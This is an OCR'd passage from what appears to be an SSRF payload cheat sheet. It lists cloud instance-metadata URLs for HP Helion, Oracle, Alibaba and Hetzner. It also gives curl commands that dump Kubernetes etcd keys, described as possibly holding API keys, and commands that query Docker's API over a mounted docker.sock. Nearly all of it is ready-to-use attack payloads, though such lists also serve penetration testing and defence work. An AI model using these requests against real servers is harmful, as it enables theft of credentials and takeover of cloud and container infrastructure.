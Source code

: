 ### SSRF URL for HP Helion

(header required? unknown)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```

### SSRF URL for Oracle Cloud

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### SSRF URL for Hetzner Cloud

```powershell
http://169.254.169.254/hetzner/v1/metadata
http://169.254.169.254/hetzner/v1/metadata/hostname
http://169.254.169.254/hetzner/v1/metadata/instance-id
http://169.254.169.254/hetzner/v1/metadata/public-ipv4
http://169.254.169.254/hetzner/v1/metadata/private-networks
http://169.254.169.254/hetzner/v1/metadata/availability-zone
http://169.254.169.254/hetzner/v1/metadata/region
```

### SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```
